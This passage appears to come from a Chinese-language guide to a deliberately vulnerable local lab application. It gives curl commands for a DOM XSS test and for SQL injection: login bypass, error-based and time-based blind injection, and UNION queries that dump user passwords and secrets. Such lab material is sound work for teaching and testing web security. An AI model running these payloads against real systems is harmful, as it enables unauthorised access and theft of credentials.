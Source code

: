 ### DOM型XSS测试
```bash
# DOM XSS测试
curl -X GET "http://localhost:8080/api/xss/dom?fragment=<img src=x onerror=alert('DOM XSS')>"
```

---

## 2. 💉 SQL注入攻击

### API端点
```bash
# 获取SQL注入漏洞信息
curl -X GET http://localhost:8080/api/sqli/info
```

### 登录绕过攻击
```bash
# 经典SQL注入登录绕过
curl -X POST http://localhost:8080/api/sqli/vulnerable/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' OR '\''1'\''='\''1'\'' --", "password": "anything"}'

# 另一种绕过方式
curl -X POST http://localhost:8080/api/sqli/vulnerable/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\''/*", "password": "*/OR/**/1=1#"}'
```

### 用户信息泄露
```bash
# 基于错误的SQL注入
curl -X GET "http://localhost:8080/api/sqli/vulnerable/user/1' AND (SELECT COUNT(*) FROM users) > 0 --"

# 时间盲注
curl -X GET "http://localhost:8080/api/sqli/vulnerable/user/1'; WAITFOR DELAY '00:00:05' --"
```

### UNION注入攻击
```bash
# 获取所有用户信息
curl -X GET "http://localhost:8080/api/sqli/vulnerable/search?keyword=' UNION SELECT id,username,password,email,role,secret FROM users --"

# 获取数据库版本信息
curl -X GET "http://localhost:8080/api/sqli/vulnerable/search?keyword=' UNION SELECT 1,@@version,3,4,5,6 --"
```

---

